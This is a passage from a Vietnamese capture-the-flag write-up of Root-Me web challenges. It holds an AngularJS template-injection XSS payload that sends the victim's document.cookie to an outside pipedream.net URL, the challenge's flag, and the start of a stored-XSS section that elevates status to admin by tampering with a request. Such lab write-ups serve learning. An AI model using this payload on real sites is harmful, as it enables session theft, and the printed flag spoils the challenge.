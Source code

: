 - Gửi cookie qua server của ta:

```
{{$on.constructor("location.assign(`https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?flag=`+document.cookie)")()}}
```

![1](1/../img/14/Screenshot%20from%202023-01-27%2018-25-25.png)

```
Flag:  rootme{@NGu1@R_J$_1$_C001}
```


# 15. XSS - Stored 2

- Intercept request và đổi status thành admin thì server trả lại `status: admin`:

![1](1/../img/15/Screenshot%20from%202023-01-27%2021-58-08.png)
